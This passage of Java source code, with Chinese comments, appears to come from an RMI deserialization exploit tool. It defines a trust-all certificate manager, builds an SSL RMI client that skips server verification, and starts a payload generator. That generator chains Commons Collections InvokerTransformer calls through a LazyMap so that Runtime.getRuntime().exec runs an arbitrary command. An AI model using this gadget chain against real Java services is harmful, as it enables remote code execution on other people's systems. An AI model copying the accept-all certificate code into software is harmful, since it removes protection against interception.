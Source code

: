```java
         return ANY_CA;
      }

      public void checkServerTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

      public void checkClientTrusted(final X509Certificate[] c, final String t) { /* Do nothing/accept all */ }

   }

   /**
    * 创建支持SSL的RMI客户端
    */
   private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {

      public Socket createSocket(String host, int port) throws IOException {
         try {
            // 获取SSLContext对象
            SSLContext ctx = SSLContext.getInstance("TLS");

            // 默认信任服务器端SSL
            ctx.init(null, new TrustManager[]{new TrustAllSSL()}, null);

            // 获取SSL Socket连接工厂
            SSLSocketFactory factory = ctx.getSocketFactory();

            // 创建SSL连接
            return factory.createSocket(host, port);
         } catch (Exception e) {
            throw new IOException(e);
         }
      }
   }

   /**
    * 使用动态代理生成基于InvokerTransformer/LazyMap的Payload
    *
    * @param command 定义需要执行的CMD
    * @return Payload
    * @throws Exception 生成Payload异常
    */
   private static InvocationHandler genPayload(String command) throws Exception {
      // 创建Runtime.getRuntime.exec(cmd)调用链
      Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{
                  String.class, Class[].class}, new Object[]{
                  "getRuntime", new Class[0]}
            ),
            new InvokerTransformer("invoke", new Class[]{
                  Object.class, Object[].class}, new Object[]{
                  null, new Object[0]}
            ),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{command})
      };

      // 创建ChainedTransformer调用链对象
      Transformer transformerChain = new ChainedTransformer(transformers);

      // 使用LazyMap创建一个含有恶意调用链的Transformer类的Map对象
      final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);

```